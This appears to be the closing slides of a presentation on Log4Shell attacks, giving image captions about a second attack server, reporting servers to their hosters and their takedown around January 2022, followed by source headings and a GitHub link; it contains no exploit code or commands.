Second attack server
Reporting them to their hosters
Reporting them to their hosters
More people noticed
Takedown
Servers got taken down around the 20.01.2022. No more attacks since.
Sources
Sources 2
Sources 3
Presentation is published on github
https://github.com/nixrod/log4shell-presentation